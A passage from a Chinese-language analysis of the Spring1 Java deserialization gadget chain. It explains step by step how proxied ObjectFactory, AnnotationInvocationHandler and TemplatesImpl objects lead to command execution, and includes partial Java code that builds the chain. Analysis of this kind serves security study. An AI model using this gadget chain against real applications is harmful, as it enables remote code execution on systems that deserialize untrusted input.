 2、然后将动态代理后的`ObjectFactory`类型的变量，传递给`ObjectFactoryDelegatingInvocationHandler`类进行初始化。这样只要触发了 ObjectFactoryDelegatingInvocationHandler 代理类的任意方法，都会触发代理的`invoke()`方法，从而触发`getObject()`方法的调用。

3、在`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`方法中，通过反射将`methodName`修改为`newTransformer()`。同时，`ReflectionUtils.findMethod()`方法需要`this.provider.getType()`返回的类中存在`newTransformer()`方法，才可以成功获得`newTransformer()`方法。

​ `MethodInvokeTypeProvider`里面的 provider 成员变量是`TypeProvider`类型，因此使用 AnnotationInvocationHandler 动态代理来修改`TypeProvider`的`getType()`方法返回的值。同时因为`getType()`方法返回的类型为`Type`，并且我们需要在返回值的类中找到对应的`newTransfromer()`方法，所以`getType()`方法需要修改的返回值是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类。

4、第三步中，`ObjectFactoryDelegatingInvocationHandler`实现了`InvocationHandler`接口，我们就可以使用`ObjectFactoryDelegatingInvocationHandler`来代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类，并将这个类放到`getType()`返回的值中。

​ 这样当程序运行到到`org.springframework.util.ReflectionUtils#invokeMethod`方法的时候，会调用`ObjectFactoryDelegatingInvocationHandler`代理后的类的`newTransformer()`方法，然后就会触发`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`方法，然后就会触发`ObjectFactory`的`getObject()`，这就与第一步和第二步做的事情联系到一起了。

5、最终在`org.springframework.beans.factory.support.AutowireUtils.ObjectFactoryDelegatingInvocationHandler#invoke`中实现触发命令执行。

```bash
TemplatesImpl tmpl = Util.SeralizeUtil.generateTemplatesImpl();
        // 使用 AnnotationInvocationHandler 动态代理
        Class<?>       c           = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = c.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        HashMap<String, Object> map = new HashMap<>();
        map.put("getObject", tmpl);

        // 使用动态代理初始化 AnnotationInvocationHandler
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map);

        // 使用 AnnotationInvocationHandler 动态代理 ObjectFactory 的 getObject 方法，使其返回 TemplatesImpl
        ObjectFactory<?> factory = (ObjectFactory<?>) Proxy.newProxyInstance(
                ClassLoader.getSystemClassLoader(), new Class[]{ObjectFactory.class}, invocationHandler);
                // 当触发factory.getObject()方法时，返回值就被修改为tmpl

        // test :  factory.toString();

                //ObjectFactoryDelegatingInvocationHandler 的 invoke 方法触发 ObjectFactory 的 getObject
                //并且会调用 method.invoke(返回值,args)
                //此时返回值被我们使用动态代理改为了 TemplatesImpl
                //接下来需要 method 是 newTransformer()，就可以触发调用链了
        Class<?>       clazz          = Class.forName("org.springframework.beans.factory.support.AutowireUtils$ObjectFactoryDelegatingInvocationHandler");
        Constructor<?> ofdConstructor = clazz.getDeclaredConstructors()[0];
        ofdConstructor.setAccessible(true);
        // 使用动态代理出的 ObjectFactory 类实例化 ObjectFactoryDelegatingInvocationHandler
        InvocationHandler ofdHandler = (InvocationHandler) ofdConstructor.newInstance(factory);

                //HashMap hashMap = (HashMap) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),HashMap.class.getInterfaces(),ofdHandler);
                //hashMap.get(1);
        // ObjectFactoryDelegatingInvocationHandler 本身就是个 InvocationHandler
        // 使用它来代理一个类，这样在这个类调用时将会触发 ObjectFactoryDelegatingInvocationHandler 的 invoke 方法
        // 我们用它代理一个既是 Type 类型又是 Templates(TemplatesImpl 父类) 类型的类
        // 这样这个代理类同时拥有两个类的方法，既能被强转为 TypeProvider.getType() 的返回值，又可以在其中找到 newTransformer 方法
        Type typeTemplateProxy = (Type) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{Type.class, Templates.class}, ofdHandler);

```